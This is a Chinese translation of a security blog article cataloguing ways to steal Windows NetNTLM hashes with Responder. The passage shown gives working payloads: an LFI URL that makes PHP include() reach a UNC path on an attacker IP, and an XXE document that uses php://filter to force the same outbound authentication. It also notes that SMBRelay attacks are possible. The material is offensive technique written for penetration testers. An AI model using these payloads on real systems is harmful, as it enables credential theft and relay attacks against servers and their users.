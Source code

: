# 窃取 NetNTLM 哈希的有趣地方

> 原文：<https://infosecwriteups.com/places-of-interest-in-stealing-netntlm-hashes-e9ac2cf17295?source=collection_archive---------1----------------------->

有一天，我和@m3g9tr0n 讨论了在窃取 NetNTLM 哈希时可以使用 responder 的不同地方。经过试验，我想到写这篇文章，以及在 Windows 世界中的一些很酷的发现。在这些情况下，SMBRelay 攻击也是可能的。

# LFI

PHP 中的 *include()* 会为我们解析网络路径。

```
[http://host.tld/?page=//11.22.33.44/@OsandaMalith](http://host.tld/?page=//11.22.33.44/@OsandaMalith)
```

![](img/a606b1fc82e07f263563119e37d787b5.png)

# XXE

在这里，我使用“*PHP://filter/convert . base64-encode/resource =*”来解析网络路径。

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=//11.22.33.44/@OsandaMalith" >
]>
<root>
  <name></name>
  <tel></tel>
  <email>OUT&xxe;OUT</email>
  <password></password>
</root>
```
